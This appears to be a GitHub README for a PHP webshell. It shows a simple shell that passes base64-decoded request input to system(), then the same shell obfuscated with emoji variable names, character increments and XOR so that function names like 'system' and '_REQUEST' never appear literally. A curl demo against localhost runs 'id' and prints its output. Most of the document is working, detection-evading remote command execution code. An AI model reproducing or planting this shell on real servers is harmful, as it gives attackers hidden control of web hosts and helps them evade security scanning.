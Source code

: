 # php-emoji-webshell

🥸 Nothing new about this webshell, just use same techniques like XOR and self increment operations.

Basically this code
```php
<?php

$a = $_REQUEST[4] ? base64_decode($_REQUEST[4]) : 'whoami';
@system($a);

```
Turn into emoji, self increment and XOR operations.

```php
<?php

$_=[];                      // $_ = [];
$_=@"$_";                   // $_ = "Array";
$__=("_"=="_")+("_"=="_");  // $__ = 1 + 1;
$_=@$_[++$__];              // $_ = $_[3] // "Array"[3]

$🌏=$_++; // a
$🤮=$_++; // b
$🍪=$_++; // c
$🫣=$_++; // d
$🧁=$_++; // e
$🎂=$_++; // f
$🥃=$_++; // g
$🍔=$_++; // h
$🌘=$_++; // i
$🌗=$_++; // j
$🌖=$_++; // k
$🌕=$_++; // l
$🌒=$_++; // m
$🌓=$_++; // n
$🌔=$_++; // o
$🌰=$_++; // p
$🍘=$_++; // q
$🥗=$_++; // r
$🥥=$_++; // s
$🍑=$_++; // t
$🍋=$_++; // u
$🧇=$_++; // v
$🌮=$_++; // w
$🍕=$_++; // x
$🥯=$_++; // y
$🍣=$_;   // z

$__++; // 4
$__++; // 5
$__++; // 6
$👿=$🤮.$🌏.$🥥.$🧁.$__; // base6
$__--; // 5
$__--; // 4
$👿.=$__.("#"^"|").$🫣.$🧁.$🍪.$🌔.$🫣.$🧁; // base64_decode

$💀=$🥥.$🥯.$🥥.$🍑.$🧁.$🌒; // system
$🥳=("#"^"|").($🍘^"#").($🎂^"#").($🥗^"#").($🧇^"#").($🎂^"#").($🌰^"#").($🌮^"#"); // _REQUEST
$🤯=@${$🥳}[$__] ? $👿(@${$🥳}[$__]) : $🌮.$🍔.$🌔.$🌏.$🌒.$🌘; // $_REQUEST[4] ? base64_decode($_REQUEST[4]) : "whoami"
@$💀($🤯); // @system("command")

```

Execute the webshell.

```sh
❯ curl http://127.0.0.1/emoji.php\?4\=`echo id | base64`
uid=501(someone) gid=20(staff) groups=20(staff),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),101(access_bpf),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae),701(com.apple.sharepoint.group.1)
```

Im just building this for fun and for the sake of learning new things. ☕️🥯
